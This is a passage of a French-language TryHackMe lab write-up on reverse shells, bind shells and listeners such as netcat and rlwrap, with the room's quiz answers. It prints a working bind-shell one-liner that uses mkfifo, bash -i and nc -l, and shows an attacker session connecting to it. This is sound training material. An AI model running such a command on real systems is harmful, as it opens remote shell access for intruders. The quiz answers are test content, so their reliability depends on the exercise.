 **What tool is commonly used to set up a listener for a reverse shell?**

**Réponse :** `netcat`

### Task 4 - Bind Shell

Comme son nom l'indique, un **shell de liaison** (bind shell) liera un port sur le système compromis et écoutera une connexion ; lorsque cette connexion se produit, elle expose la session shell afin que l'attaquant puisse exécuter des commandes à distance.

Voici un exemple de bind shell :

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Explication du payload :
- `rm -f /tmp/f` même chose que la dernière fois
- `mkfifo /tmp/f` même chose que la dernière fois
- `cat /tmp/f` même chose que la dernière fois
- `| bash -i 2>&1` même chose que la dernière fois
- `| nc -l 0.0.0.0 8080` démarre Netcat en mode écoute (-l) sur **toutes les interfaces** (0.0.0.0) et le port **8080**. Le shell sera exposé à l'attaquant une fois connecté à ce port.
- `>/tmp/f` même chose que la dernière fois

Une fois la commande lancée sur l'attaquant on peut s'y connecter de cette façon : `nc -nv TARGET_IP 8080`


```bash
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

---

**What type of shell opens a specific port on the target for incoming connections from the attacker?**

**Réponse :** `Bind Shell`

**Listening below which port number requires root access or privileged permissions?**

J'ai cherché sur internet et j'ai trouvé :

**Réponse :** `1024`

### Task 5 - Shell Listeners

Comme nous l'avons appris lors des tâches précédentes, un reverse shell se connectera **de la cible compromise à la machine de l'attaquant**. Un utilitaire comme Netcat gérera la connexion et permettra à l'attaquant d'interagir avec le shell exposé, mais Netcat n'est pas le seul utilitaire qui nous permettra de le faire.

#### Rlwrap

Il s'agit d'un petit utilitaire qui utilise la bibliothèque GNU readline pour fournir l'édition du clavier et de l'historique.
